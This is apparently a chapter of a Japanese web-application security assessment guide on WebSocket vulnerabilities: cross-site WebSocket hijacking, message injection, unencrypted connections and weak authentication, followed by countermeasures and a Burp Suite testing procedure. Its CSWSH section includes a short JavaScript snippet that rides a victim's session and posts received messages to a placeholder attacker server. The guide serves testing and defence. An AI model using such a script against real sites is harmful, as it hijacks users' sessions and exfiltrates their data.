

# WebSocket

## 概要
WebSocketは、クライアントとサーバー間で双方向通信を可能にする通信プロトコルです。HTTPとは異なり、WebSocketでは接続が確立された後、クライアントとサーバー間で自由にデータを送受信することが可能です。そのような特性から、リアルタイム性の高い機能を実装する際に広く利用されています。この章ではWebSocketに関する一般的な脆弱性や攻撃手法を一部例に挙げ、診断手法および対策を記載します。

## 診断観点
### Cross-site WebSocket hijacking (CSWSH)
Cross-site WebSocket hijacking (CSWSH)とは、攻撃者がユーザーのWebSocket接続を不正に利用する攻撃手法です。WebSocketにおけるCSRF脆弱性ともいえます。WebSocket接続における正当性の検証がCSRFトークンや同等のセキュリティ対策が行われず、セッションCookieのみに依存する場合に発生する可能性があります。また、WebSocket通信ではSame-Origin Policy（SOP）が適用されないため、サーバーがOriginヘッダーを適切に検証しない場合、異なるオリジンからの不正な接続を許可してしまうことも原因の一つです。

#### 攻撃の流れ
1. 攻撃者は悪意のあるWebページを用意
攻撃者は、以下のようなスクリプトを含む悪意のあるWebページを作成します。
    ```
    // ターゲットへのWebSocket接続を確立
    const ws = new WebSocket('wss://[target-server]/socket');
    ws.onopen = function() {
        ws.send('payload'); // ペイロードを送信
    };
    ws.onmessage = function(event) {
        // データを攻撃者のサーバに送信
        fetch('https://[attacker-serer]/log', { 
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
    ```

2. ユーザーが悪意のあるページへアクセス
ユーザーが攻撃者のWebページを開くと、スクリプトが実行され、ユーザーのセッションを使ってターゲットのWebSocketエンドポイントへの接続を確立します。このとき、被害者がターゲットへの認証済みであることを前提とします。

3. 不正な操作が実行される
WebSocket通信が確立されると、攻撃者のスクリプトによってWebSocketを経由した不正なデータの送受信が可能になります。

### 入力検証不備とメッセージインジェクション
HTTPと同様にWebSocket通信においても入力データの検証が不十分な場合、攻撃者はWebSocketメッセージ内に悪意あるペイロードを混入させ、サーバまたは他のクライアントに対するインジェクション攻撃を実行できます。例えば、JSONメッセージ中のパラメータに悪意のあるクエリやスクリプトを埋め込むことで、SQLインジェクションやクロスサイトスクリプティング（XSS）、コードインジェクションなどを誘発する可能性があります。加えて、WebSocketはリアルタイム性を持つ常時接続の双方向通信プロトコルであるという性質上、攻撃が非常に速いペースで展開されやすく、特にサーバから他のクライアントへのブロードキャスト機能がある場合には、一人の攻撃者の悪意あるデータが複数ユーザーに伝播し、被害が急速に拡大する恐れがあります。WebSocketを利用するアプリケーションでは、入力データをサーバー側で厳密に検証し、適切な処理を行っているか確認する必要があります。

### 暗号化
WebSocket通信は、接続開始時のWebSocketハンドシェイクにおいてはHTTPが使われますが、接続確立後、TCPベースの双方向通信に切り替わります。HTTPと同様に暗号化されていない通信（`ws://`）とSSL/TLSによる暗号化通信（`wss://`）が用意されています。
暗号化されていない`ws://`接続では、通信内容が平文で送受信されるため、中間者攻撃（MITM）によって攻撃者に通信内容を盗聴される恐れがあります。

### 認証・セッション管理の欠如
WebSocketプロトコル自体には独自の認証・認可の仕組みがありません。そのため認証やセッション管理はアプリケーション側で適切に設計する必要があります。実装が不十分な場合、通常はログイン後にしか利用できないWebSocketエンドポイントに対し、未認証の状態でもWebSocket機能へアクセスできる恐れがあります。他にも、セッション確立後にログアウトしてもWebSocket接続が生き続ける場合もセッション管理上の問題となります。

## 事例紹介
- https://nvd.nist.gov/vuln/detail/CVE-2024-26135
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-1403
- https://jvn.jp/jp/JVN50850706/


## 対策
- Originヘッダの検証
    -  WebSocket通信でのSOPはブラウザのOriginヘッダー送信に依存しているため、サーバー側でその値を検証することが重要です。
    -  ただし、任意の変更が可能であるため、完全に信頼せず、他の対策と併用する必要があります。
- CSRFトークンによる正当性確認
    - セッションCookieに基づく認証だけでは、攻撃者が正規ユーザーのセッションを悪用し、不正なWebSocket接続を確立できる場合があります。そのため、通信に推測不可能なランダムな値を付与して検証し、正当な通信であるか判定する必要があります。
- WSSの使用
    - 常にセキュアなWebSocket (`wss://`) を使用し、通信をTLSで暗号化します。サーバー側で有効な証明書を設定してHTTPS上でWebSocketを提供し、クライアントにも`wss://`で接続させるようにします。またサーバー側の実装においても、TLS接続でないWebSocketのハンドシェイクリクエストは拒否することが望ましいです。
- 認証トークン（JWT）の利用
- メッセージの検証
- 認証認可周り

## 診断方法
ここでは、BurpSuiteを用いたCSWSHの診断手法の一例をご紹介します。
WebSocket接続のハンドシェイクを改ざんし、サーバ側の検証が適切に行われているか確認します。

1. Websocket接続の確立
WebSocket通信が発生する対象画面にアクセスし、`Proxy`→`HTTP history`を確認します。該当するハンドシェイクリクエストを確認し、ステータスコードが101（Switching Protocol）となっていることを確認してください。

2. WebSocketメッセージ
`Proxy` → `WebSockets history`タブで通信内容を確認し、クライアントからサーバに対するメッセージを選択しRepeaterに送ります。

3. 接続試行
Repeater画面で編集アイコンをクリックするとBurpが記録したWebSocket接続が一覧表示されます。この中から対象のWebSocket接続を選択し、`Clone`を実行します。
`Clone`を行うと、既に確立されたWebSocket接続のハンドシェイクが編集可能な状態で複製され、ウインドウに表示されます。ヘッダ等を任意に変更したうえで`Connect`をクリックすると、その内容でWebSocket接続を再試行できます。



このとき、例として以下の様なテストを実施できます。
- `Origin`ヘッダの改ざん
- CSRFトークンや対策に使用しているヘッダ等の有無、妥当性の検証
- `X-Forwarded-For`ヘッダの追加によるIPアドレス偽装

アプリケーションロジックやWebSocketの認証・認可処理の実装に応じてテストを行い、サーバがセッション情報（Cookie等）のみを根拠にWebSocket接続を許可していないか、またはオリジン検証が適切かを確認してください。
サーバ側で適切な対策がされていない場合、ハンドシェイクが成功し、WebSocket接続が確立します。そのままメッセージの送受信が可能であれば、CSWSHのリスクが高いと判断できます。

#### 拡張機能
https://github.com/snyk/socketsleuth


## 参考
- https://portswigger.net/web-security/websockets
- https://portswigger.net/burp/documentation/desktop/testing-workflow/websockets/manipulating-websocket-handshakes
- https://pentest-tools.com/blog/cross-site-websocket-hijacking-cswsh
- https://github.com/snyk/socketsleuth
- https://pentest-tools.com/blog/cross-site-websocket-hijacking-cswsh
- https://book.hacktricks.xyz/v/jp/pentesting-web/websocket-attacks
- https://pentest-tools.com/blog/cross-site-websocket-hijacking-cswsh
- https://appcheck-ng.com/cross-site-hijacking/
- https://devcenter.heroku.com/ja/articles/websocket-security
